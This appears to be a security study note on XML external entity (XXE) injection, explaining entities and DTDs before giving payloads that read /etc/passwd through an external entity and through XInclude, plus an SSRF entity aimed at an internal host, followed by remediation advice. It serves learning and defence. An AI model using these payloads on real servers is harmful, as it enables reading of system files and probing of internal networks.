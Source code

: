 # XXE (XML external entity)❌Injection

XXE injection is an attack technique to manipulate ot compromise the logic of XML application.

Attacker can view internal file's of applicatgion server and interact with back end systems.

- ***XML (Extensible markup language):*** designed for storing and transporting data. XML uses a tree structure of tags and data.
- ***XML Entities*** is a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities `&lt;` and `&gt;` represent the characters < and >.
- ***DTD (Document type definition):*** define the structure of an XML document, it can contain types of data values and other items. 

  DTD is declared within the optional DOCTYPE element at the start of the XML document. 

  DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two. 
- ***What is XML external entities:*** a type of custom entity whose definition is located outside of the DTD.
  
  Declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded
  
  ` <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` or `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

## How XXE vulnerability occur?

When aplications use the XML format to transmit data between the browser to server. they always using standard library or platform API to process XML data on the server.

XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

Like XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. also external entities are allow an entity to be defined based on the contents of a file path or URL. 

## Types of XXE

- Internal DTD
- External DTD


## 🔎 How to find and test XXE
### 1. Exploiting XXE to retrieve files

 To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

   1. Edit a DOCTYPE element that defines an external entity containing the path to the file.
   2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

Example: Application checks for the stock level of a product by submitting the following XML to the server
```
<?xml version="1.0" encoding="UTF-8"?>
<stocCheck><productId>381</productId></stockCheck>
```

Here. no defenses against XXE attacks, so you can exploit XXE to retrieve the `/etc/passwd` file by submitting following XXE payload: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file.
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
### 2. Exploiting XXE to perform SSRF attacks

SSRF is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

Example: Perform SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### 3. [Blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)

### 4. Finding hidden attack surface for XXE injection
  1. XInclude attacks

Perform an XInclude attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. 

Example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
  2. [XXE attacks via file upload](https://portswigger.net/web-security/xxe)
  3. [XXE attacks via modified content type](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)


## 🛠️ Remediation of XXE

- XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The safest way to prevent XXE is always to disable DTDs (External Entities) completely. 
-  Configure XML parser to disable external entity resolution.
-  Disable support for XInclude

## 🔗 Refrence

- https://portswigger.net/web-security/xxe
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
